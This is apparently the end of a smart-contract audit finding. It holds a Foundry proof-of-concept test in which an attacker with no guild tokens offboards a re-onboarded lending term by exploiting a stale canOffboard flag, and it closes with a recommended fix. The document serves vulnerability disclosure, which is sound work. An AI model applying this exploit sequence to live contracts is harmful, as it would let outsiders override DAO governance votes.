 ```solidity
    offboarder.cleanup(address(term));

    // ------------------------------------------------------------------------------ //
    // ---<< Waiting for all term's loans to be closed to execute the cleanup() >>--- //
    // ------------------------------------------------------------------------------ //

    // Next 10 days
    // Offboarding poll expired
    vm.roll(block.number + 66460); // 10 days
    vm.warp(block.timestamp + 66460 * 13);
    assertGt(block.number, OFFBOARDING_POLL_END_BLOCK);

    // While waiting for all term's loans to be closed, the term gets re-onboarded
    vm.stopPrank();
    assertEq(guild.isGauge(address(term)), false);
    guild.addGauge(1, address(term));
    assertEq(guild.isGauge(address(term)), true);

    // The canOffboard[term] flag is still active since the cleanup() hasn't been called
    assertEq(offboarder.canOffboard(address(term)), true);

    // Next 30 days
    vm.roll(block.number + 199380); // 30 days
    vm.warp(block.timestamp + 199380 * 13);

    // Attacker offboards the term by overriding the DAO vote offboarding mechanism
    // The attacker did not need to hold any guild tokens to exploit this vulnerability
    address Attacker = address(1);
    vm.startPrank(Attacker);
    assertEq(guild.isGauge(address(term)), true);
    offboarder.offboard(address(term));
    assertEq(guild.isGauge(address(term)), false);
}
```

## Tools Used

Manual Review

## Recommended Mitigation Steps

Implement a proper mechanism for resetting the `canOffboard[term]` flag once the associated lending term has been re-onboarded. 

*It is worth noting that the `canOffboard[term]` flag should be reset after the term re-onboarding operation has successfully been executed by Timelock (when the term is already active) to prevent other security issues.*


## Assessed type

Other
